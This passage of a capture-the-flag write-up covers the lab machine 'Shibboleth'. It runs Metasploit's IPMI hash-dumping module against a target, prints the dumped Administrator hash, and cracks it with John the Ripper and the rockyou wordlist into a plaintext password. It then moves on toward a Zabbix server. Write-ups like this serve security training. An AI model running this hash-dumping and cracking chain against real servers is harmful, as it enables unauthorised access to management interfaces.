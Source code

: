 ipmi dumphashes module in msf so gave that a go.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:3ab7363e8201000032afe9725acde3eb108ade145258f8378b20664f4724336c483d7fa84d69d46aa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:c88fb15445d8978726fbb5cb9ddf0d30907e9dfd
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

John was able to identify the hash and crack it with the rockyou wordlist.

```bash
➜  Shibboleth john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)     
1g 0:00:00:00 DONE (2022-03-30 20:40) 1.562g/s 11673Kp/s 11673Kc/s 11673KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
<br>
I tried to look into how I could log into the BMCs interface, through something like
an evil-winrm type of program. Unfortunately I couldnt find any way for me to remotely
connect to the BMC with these new found creds. Next I decided to try them on the zabbix
server maybe.
<br>
<br>

- [X] Webserver on port 80
- [X] IPMI on UDP 623

### Zabbix Server
